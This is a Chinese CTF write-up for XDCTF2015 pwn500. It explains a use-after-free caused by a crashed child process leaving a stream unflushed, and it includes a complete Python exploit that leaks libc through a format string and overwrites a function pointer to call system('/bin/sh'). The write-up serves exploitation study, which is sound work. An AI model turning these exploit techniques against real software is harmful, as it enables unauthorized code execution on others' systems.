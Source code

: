```yaml
---
title: XDCTF2015 pwn500
date: 2016-11-12
tags: CTF
layout: post
---
```


## 0x00 Struct

程序是一个教务处管理系统, 64位ELF文件. 可以注册, 考试, 补考, 计算成绩, 查看注册信息...还隐藏了一个作弊函数, 可以用来修改已输入的内容.

程序使用了两个结构体负责维护各种信息, 结构体如下:

``` C
typedef struct exam{
    //struct size = 0x20
    //malloc size = 0x68
    short int subject;  //size = 4
    short int real_len; // size = 4
    int input_len;
    char *data_ptr;
    int (*get_score)(struct exam *subject, int flag);
} Exam;

typedef struct {
    //struct size = 0xF8
    //malloc size = 0xF8
    char name[0x11];
    char message[0xCF];
    Exam *math;
    Exam *english;
    Exam *dota;
} User;
```

User结构体很明显, 没什么可说的. Exam结构体的最后一项是一个函数指针. 在计算score和resit时会进行调用.

## 0x01 UAF

整个程序显得很大, 但是并没有什么太特殊的东西, 而已又是C写的, 体力活而已.

在进行考试时, 首先制造了一个文件流, 之后fork一个子进程专门用来读取data信息到流中, 读取后进行退出. 父进程等待子进程结束后从流中读出数据, 写入Exam中data\_ptr指向的内存中. 这个内存块根据用户输入的len来malloc, 所以没有溢出...

第二个关键的函数是补考(resit)函数. 函数会检查Exam块的real\_len和data\_ptr, 有任一项为NULL则直接退出. 否则若成绩小于60, free掉data块, 置空real\_len和data\_ptr.

UFA的第一步就发生在resit函数中. 在free掉data块后, 如果real\_len为零, 程序并不会置空data\_ptr, 也就是留下了hang pointer.

data块最大大小为104, 正好等于Exam块的大小...本来Exam块只需要0x20就可以了, 很明显这是故意的...

补考函数只会检查data\_ptr是否为NULL. 这样只需要先考试, resit之后再考试另一科目. 此时第一次考试留下的野指针正好指向第二次考试的Exam块.

而Exam块中保存着一个函数指针, 通过隐藏的作弊函数就能覆盖掉. 这样通过UFA就造成了任意执行.

```
take_exam_Math -> essay_len(data_len) = 104 ->
    resit -> take_exam_English -> cheat -> show_score
```

然而在正常情况下程序的input\_len和real\_len是相等的, input\_len不能为0...

## 0x02 Child procsee crash

UFA利用的关键在于如何使real\_len为0.

在正常情况下, 负责读取输入的子进程会不断循环调用read函数直到读取的字节和input\_len相等. 所以输入EOF并没有什么用.

但是读取函数本身是有问题的, 在循环读取时read的数据并不是直接写入文件流, 而是存在了栈上. 但是栈大小不够, 会造成8字节的溢出.

而程序的read函数是包装过的, 在读取结束后会在末尾添加`\x00`, 这样ret地址的低字节正好被覆盖, 导致ret后反而跳到前面的指令中(并没有直接崩溃)...但是随后因为访问栈上地址造成了非法地址访问, crash.

虽然函数在ret之前就已经调用了fputs()函数将读取到的数据写入了文件流中, 但是仔细分析就会发现一些问题.

在最初初始化的时候, 程序调用了setvbuf()将文件流的模式调整为了`_IOLBF`状态.([关于setvbuf的Link][1]). 该模式在写入数据时不会立即进行, 而是保存在缓冲区中, 直到缓冲区满或有新的一行字串写入时才刷新缓冲. exit()和程序的正常退出都会进行缓冲的刷新.

但是程序的crash并不会刷新缓冲...由于读取函数只写入了一行, 所以虽然调用了fputs(), 但是本应在正常退出时进行的缓冲刷新因为crash中断了, crash后文件流是空的, 达成了real\_len为零的条件.

## 0x03 Exp

完整的exp如下, 题目提供了libc, 所以只需要leak一次libc地址即可.

有趣的是leak的方式. 被覆盖的func函数原型如下:

``` C
int func(Exam *subject, int flag)
```

被传入的Exam是我们可控的, 但是并不能构造出puts(addr)或printf("%s", addr).

但是我们可以构造出格式化字符串. 这样就可以泄露`__libc_main`的地址了.

完整的exp如下:

``` python
#!/usr/bin/env python

from zio import *
from pwn import ELF

target = "./jwc"

io = zio(target, print_read = COLORED(REPR, 'red'), print_write = COLORED(REPR, 'blue'), timeout = 100000)

menud = "6.exit\n"

def register():
    io.read_until(menud)
    io.writeline("1")
    io.read_until("chars\n")
    io.writeline("huaji")
    io.read_until("yourself\n")
    io.writeline("999999999")
    io.read_until("registered!\n")
    print("register success.")

def doexam(exam, length, content):
    io.read_until(menud)
    io.writeline("2")
    io.read_until("3.dota\n")
    io.writeline(str(exam))
    io.read_until("essay?\n")
    io.writeline(str(length))
    io.read_until("OK\n")
    io.writeline(content)
    io.read_until("exam~\n")
    print("exam done.")

def cheat(exam, content):
    io.read_until(menud)
    io.writeline("1024")
    io.read_until(":)\n")
    io.writeline(str(exam))
    io.writeline(content)
    print("cheat done.")

# get hang pointer
register()
doexam(1, 104, "9"*104)

io.read_until(menud)
io.writeline("5")
io.read_until("3.dota\n")
io.writeline("1")
io.read_until("again\n")

doexam(2, 64, "9"*64)

# leak main return addr
format_str = "%11$lu\x00"
printf_plt = 0x4009B0
payload = format_str + "9"*(0x18 - len(format_str)) + l64(printf_plt)
cheat(1, payload)

io.read_until(menud)
io.writeline("3")
io.read_until("\n")
leakinfo = io.read_until("english")
leakinfo = int(leakinfo[:-7])
print("get leak info %s" % hex(leakinfo))

#calculatr system address
libc = ELF("./libc.so")

system_addr = leakinfo - 241
system_addr = system_addr + (libc.symbols['system'] - libc.symbols['__libc_start_main'])

#get shell
shellcode = "/bin/sh\x00"
payload = shellcode + "9"*(0x18 - len(shellcode)) + l64(system_addr)
cheat(1, payload)

io.read_until(menud)
io.writeline("3")

io.interact()
```

## 0x04  End

其实UFA并不是很难, 主要的坑点在于子进程crash导致的写入失败. 或者说这个比赛题目的真正核心就在于缓冲区的非及时写入.

[1]: https://www.tutorialspoint.com/c_standard_library/c_function_setvbuf.htm
